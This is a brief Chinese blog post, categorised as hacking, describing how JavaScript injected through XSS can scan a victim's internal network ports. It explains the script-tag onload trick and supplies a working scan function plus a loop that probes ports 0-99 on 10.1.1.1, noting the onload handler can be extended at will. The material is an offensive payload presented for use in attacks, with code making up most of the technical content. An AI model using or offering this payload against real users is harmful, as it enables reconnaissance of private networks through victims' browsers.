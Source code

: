 ```yaml
---
category:	hacking
layout:		post
title:		xss中使用js扫描外|内网端口
desc:		在xss攻击中，为了更深一步探测信息，可以尝试着获取一下内网IP段，然后进行端口扫描。当然，神马中间人攻击、跳板exp的这里就不说了。
tags:		[xss,javascript扫描端口,xss扫描端口]
---
```

#### 原理
因为能允许跨域访问的URL实在太少，所以使用`Ajax`技术来实现貌似不太可能，还好，有了一个比较好的思路。    
因为例如`img`,`script`等标签都可以进行跨域访问外部资源，所以这就给了我们想象空间。如果我们创建一个`script`，然后地址为内网的ip+端口，如果加载成功（就算代码执行出错）也会触发`onload`事件，这时候我们所要达到的目的已经完成了。

#### 实现
先简单贴一些代码：
[code:javascript:]
function scan(ip, port){
	var s = document.createElement("script");
	s.src = "http://" + ip + ":" + port;
	s.onload = function(){
		console.log("[*] IP:%s PORT:%s OPEN!", ip, port);
	}
	document.body.appendChild(s);
}
[codend]
然后我们使用`for`循环扫描端口，例如：
[code:javascript:]
for (var i = 0; i < 100; i++) {
	scan("10.1.1.1", i);
};
[codend]
这时候如果对方端口打开，就会触发`onload`事件了，事件里的功能代码可以随意扩展～
